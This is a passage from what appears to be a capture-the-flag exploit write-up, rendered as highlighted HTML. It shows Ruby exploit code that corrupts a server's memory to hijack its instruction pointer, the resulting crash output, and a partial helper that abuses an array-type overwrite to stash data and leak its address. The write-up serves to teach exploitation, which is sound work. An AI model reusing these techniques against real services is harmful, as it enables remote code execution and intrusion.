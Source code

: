 <span class="lnr">15 </span>store(s, <span class="Type">VARDATA_TYPE_INT_ARRAY</span>, [<span class="Constant">0x42424242</span>])
<span class="lnr">16 </span>edit(s, <span class="Constant">1</span>, <span class="Constant">3</span>, [return_address, <span class="Constant">1</span>].pack(<span class="Special">&quot;</span><span class="Constant">II</span><span class="Special">&quot;</span>))
<span class="lnr">17 </span>edit(s, <span class="Constant">0</span>, <span class="Constant">0</span>, [<span class="Constant">0x43434343</span>].pack(<span class="Special">&quot;</span><span class="Constant">I</span><span class="Special">&quot;</span>))
<span class="lnr">18 </span>
<span class="lnr">19 </span><span class="Comment"># Cause the main loop to return</span>
<span class="lnr">20 </span>quit(s)
</pre>

Can you guess what happens to the server?

<pre>
<span class="Type">Program</span> received signal <span class="Type">SIGSEGV</span>, <span class="Type">Segmentation</span> fault.
<span class="Constant">0x43434343</span> <span class="Statement">in</span> <span class="Constant">??</span> ()
</pre>

Yup, EIP control.

To summarize: reading the entire stack is hacky, and I doubt it will work on a 64-bit system, but it worked great in this case!

<h3>Aside: Stashing data</h3>

It's <em>really</em> easy to stash data and get the address back. I'm going to want to open and read a file, later, so I need a way to stash the file and reference it later. This documented code should explain everything:

<pre>
<span class="Comment"># Store a series of bytes in memory, and return the absolute address</span>
<span class="Comment"># to where in memory those bytes are stored</span>
<span class="rubyDefine">def</span> <span class="Identifier">stash_data</span>(s, data)
  <span class="Comment"># Store an array of doubles - this will allocate 4 bytes and overwrite 32</span>
  store(s, <span class="Type">VARDATA_TYPE_DOUBLE_ARRAY</span>, [<span class="Constant">0x5e5e5e5e5e5e5e5e</span>] * <span class="Constant">4</span>)

  <span class="Comment"># Store an array of bytes, which are the data. It will allocate a buffer</span>
  <span class="Comment"># in which to store these bytes, a pointer to which is written over the</span>
  <span class="Comment"># previous entry</span>
  store(s, <span class="Type">VARDATA_TYPE_BYTE_ARRAY</span>, data.bytes.to_a)

  <span class="Comment"># Get bytes 24 - 27 of the double array, which is where a pointer to the</span>
  <span class="Comment"># allocated buffer (containing 'data') will be stored</span>
  result = get(s, <span class="Constant">1</span>)[<span class="Constant">24</span>..<span class="Constant">27</span>].unpack(<span class="Special">&quot;</span><span class="Constant">I</span><span class="Special">&quot;</span>).pop
